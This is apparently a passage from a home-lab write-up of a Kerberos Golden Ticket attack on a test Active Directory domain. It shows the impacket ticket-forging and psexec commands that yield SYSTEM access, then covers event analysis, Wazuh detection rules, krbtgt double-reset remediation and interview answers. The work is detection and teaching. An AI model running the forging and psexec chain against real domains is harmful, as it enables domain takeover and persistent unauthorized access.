
*Figure 5.3: Kali terminal executing clock skew resynchronization and fresh ticket generation.*

#### The Full Attack Execution Chain (Ticketer -> Klist -> PSExec -> SYSTEM)
The entire operational sequence was executed in a unified workflow:

```bash
# 1. Forge Ticket
impacket-ticketer -aesKey <KRBTGT_AES256_KEY> -domain-sid S-1-5-21-3965529547-1709915012-255161553 -domain soclab.local -user normaluser01 -user-id 1153 -groups 512,513,518,519 normaluser01.ccache

# 2. Export Kerberos Cache
export KRB5CCNAME=/home/kali/normaluser01.ccache

# 3. Verify Cache
klist

# 4. Interactive Takeover via PSExec
impacket-psexec -k -no-pass soclab.local/normaluser01@WIN-SOCLAB.soclab.local
```


*Figure 5.4: Complete execution chain: ticket forgery, cache export, klist validation, psexec SMB connection, and `whoami` returning `nt authority\system`.*

Remote token and group privileges inspection:


*Figure 5.5: `whoami /groups` output confirming injected memberships: `Domain Admins`, `Enterprise Admins`, and `Schema Admins`.*

---

### Blue Team Deep Dive: Telemetry Triad & Detection Correlation

When the forged TGT was presented via `impacket-psexec`, two primary Kerberos events were generated on the Domain Controller:

#### 1. Kerberos Service Ticket Request (Event ID 4769) — Rule 100124
The attacker presented the forged TGT to request a service ticket for `cifs/WIN-SOCLAB.soclab.local`. The KDC issued Event 4769 with Ticket Options `0x40810000`. Custom **Rule 100124** triggered on this activity, generating **16 consecutive Level 11 alerts**:

---


---


*Figure 5.6: Event 4769 document details showing `TargetUserName: normaluser01`, `ServiceName: WIN-SOCLAB$`, and `TicketOptions: 0x40810000`.*


*Figure 5.7: Windows Event 4769 security message confirming Kerberos service ticket was requested.*


*Figure 5.8: Event 4769 confirming client IP `::ffff:192.168.100.50` and AES-256 encryption (`0x12`).*

#### 2. Special Privilege Assignment (Event ID 4672) — Rule 100125
When LSASS unpacked the forged PAC, it assigned elevated administrative privileges (`SeDebugPrivilege`, `SeBackupPrivilege`, `SeTakeOwnershipPrivilege`) to the logon session. Custom **Rule 100125** detected this assignment and raised a **Level 12 (Critical Privilege Assignment)** alert:


*Figure 5.9: Wazuh Threat Hunting dashboard showing Rule 100125 firing at Level 12 for `normaluser01`.*


*Figure 5.10: Event 4672 document details showing full `PrivilegeList` (`SeSecurityPrivilege`, `SeBackupPrivilege`, `SeTakeOwnershipPrivilege`, `SeDebugPrivilege`).*


*Figure 5.11: Windows Event 4672 message: "Special privileges assigned to new logon" for `normaluser01`.*

---

## Detection Engineering & SIEM Rules

Below is the complete XML rule configuration deployed in `/var/ossec/etc/rules/local_rules.xml` on the Wazuh Manager:

```xml
<group name="windows,kerberos,active_directory,">

  <!-- ============================================================== -->
  <!-- Rule 100123: Non-DC Directory Service Replication (DCSync)      -->
  <!-- ============================================================== -->
  <rule id="100123" level="13">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4662$</field>
    <!-- Access Mask 0x100 = RIGHT_DS_CONTROL_ACCESS -->
    <field name="win.eventdata.accessMask">0x100</field>
    <!-- Whitelist legitimate Domain Controllers (machine accounts ending in $) -->
    <field name="win.eventdata.subjectUserName" negate="yes">.*\$</field>
    <description>Active Directory: Potential DCSync Attack - Directory replication extended rights requested by non-DC account $(win.eventdata.subjectUserName)</description>
    <mitre>
      <id>T1003.006</id>
    </mitre>
  </rule>

  <!-- ============================================================== -->
  <!-- Rule 100124: Anomalous Kerberos TGS Request (Golden Ticket)     -->
  <!-- ============================================================== -->
  <rule id="100124" level="11">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4769$</field>
    <!-- Standard Impacket ticketer options (Forwardable, Renewable, Canonicalize) -->
    <field name="win.eventdata.ticketOptions">^0x40810000$</field>
    <field name="win.eventdata.status">^0x0$</field>
    <field name="win.eventdata.targetUserName">normaluser01</field>
    <description>Kerberos: Potential Golden Ticket Activity - Service Ticket (TGS) Requested by $(win.eventdata.targetUserName) for $(win.eventdata.serviceName)</description>
    <mitre>
      <id>T1558.001</id>
    </mitre>
  </rule>

  <!-- ============================================================== -->
  <!-- Rule 100125: Golden Ticket Administrative Logon (Event 4672)    -->
  <!-- ============================================================== -->
  <rule id="100125" level="12">
    <!-- Inherits from Windows EventChannel rule 67020 (Event 4672) and legacy rules -->
    <if_sid>67020,60106,60103</if_sid>
    <match>normaluser01</match>
    <description>Kerberos: Potential Golden Ticket Activity - Administrative Logon and Privilege Assignment for $(win.eventdata.subjectUserName)</description>
    <mitre>
      <id>T1558.001</id>
    </mitre>
  </rule>

</group>
```

### Engineering Discoveries & Rule Architecture Notes
1. **Windows EventChannel Decoder Hierarchy (`67020` vs `60106`):**
   In modern Wazuh architectures collecting logs via `windows_eventchannel`, Windows Security Event 4672 (`Special privileges assigned to new logon`) is mapped to built-in rule **`67020`**, not legacy rule `60106`. Parenting Rule 100125 under `<if_sid>67020,60106,60103</if_sid>` guarantees consistent matching regardless of whether legacy or EventChannel collectors are in use.
2. **Dynamic Kerberos Service Targeting:**
   When a client utilizes a forged TGT, it requests service tickets for target hosts (e.g., `cifs/WIN-SOCLAB.soclab.local` or `host/WIN-SOCLAB.soclab.local`), NOT `krbtgt` (`krbtgt` is only used offline to sign the TGT). Filtering on `serviceName: krbtgt` causes detection silence; keeping `serviceName` open captures legitimate network service targets.
3. **Payload String Matching via `<match>`:**
   In Windows Security telemetry, Event 4672 stores the username under `subjectUserName`, whereas Event 4624 stores it under `targetUserName`. Employing `<match>normaluser01</match>` ensures payload-level matching across heterogeneous event formats.

---

## Incident Response & Remediation: The `krbtgt` Double-Reset Rule

When a Golden Ticket compromise occurs, standard remediation procedures (such as resetting user passwords or rebuilding endpoints) do **NOT** evict the adversary because the attacker possesses the master `krbtgt` key.

Active Directory maintains **two** password versions for the `krbtgt` account:
1. The **Current Password Version** (used to evaluate active tickets).
2. The **Previous Password Version** (maintained to prevent service disruption during forest replication delays).

Consequently, **the `krbtgt` password must be reset twice**, allowing sufficient time between resets for Active Directory replication to propagate across all Domain Controllers and for existing tickets to expire.

```powershell
# ==============================================================================
# Active Directory Incident Response: krbtgt Double-Reset Procedure
# Run as Domain Administrator on Domain Controller WIN-SOCLAB
# ==============================================================================

# Step 1: First Reset of krbtgt account password
Set-ADAccountPassword -Identity "krbtgt" -NewPassword (ConvertTo-SecureString (New-Guid).ToString() -AsPlainText -Force) -Reset
Write-Host "[+] First krbtgt password reset completed successfully." -ForegroundColor Green

# Step 2: Force replication across all Domain Controllers in the forest
repadmin /syncall /force /APed
Write-Host "[+] Forest-wide directory synchronization initiated." -ForegroundColor Cyan

# Step 3: Wait for standard Kerberos ticket lifetime
# In production, wait 10-24 hours for legitimate user tickets to naturally expire.
# In lab environments, minimum 15 minutes is sufficient.
Write-Host "[*] Waiting for ticket lifetime expiration..." -ForegroundColor Yellow
Start-Sleep -Seconds 900

# Step 4: Second Reset of krbtgt account password (Invalidates all forged Golden Tickets)
Set-ADAccountPassword -Identity "krbtgt" -NewPassword (ConvertTo-SecureString (New-Guid).ToString() -AsPlainText -Force) -Reset
Write-Host "[+] Second krbtgt password reset completed! All forged tickets invalidated." -ForegroundColor Green

# Step 5: Force final replication
repadmin /syncall /force /APed

# Step 6: Purge all local Kerberos ticket caches on Domain Controllers
klist -li 0x3e7 purge
Write-Host "[+] KDC local ticket cache purged cleanly." -ForegroundColor Cyan
```

---

## Blue Team Interview Talking Points

1. **"Why does resetting an impersonated user's password fail to revoke a Golden Ticket?"**
   * *Answer:* Golden Tickets are encrypted and digitally signed with the domain's secret `krbtgt` account key, completely independent of the target user's password. The KDC validates tickets statelessly by verifying the cryptographic `krbtgt` signature. To invalidate forged tickets, the `krbtgt` account password must undergo the complete double-reset procedure.
2. **"What is the primary SIEM signature of a Golden Ticket?"**
   * *Answer:* The **Missing AS-REQ Anomaly**. In normal Kerberos operations, an AS-REQ (Event 4768) precedes any TGS-REQ (Event 4769). In a Golden Ticket attack, the TGT is forged offline; hence, Event 4769 appears with zero preceding Event 4768 events for that user session. Additionally, forged tickets frequently carry abnormal lifetimes (e.g., 10 years).
3. **"How do you detect DCSync before a Golden Ticket is forged?"**
   * *Answer:* Audit Windows Event ID 4662 with Access Mask `0x100` (`RIGHT_DS_CONTROL_ACCESS`) and Directory Replication Extended Rights GUIDs (`1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`). Filter out legitimate Domain Controller computer accounts (`.*\$`). Any standard user or workstation account requesting replication rights is an immediate Severity 1 incident.
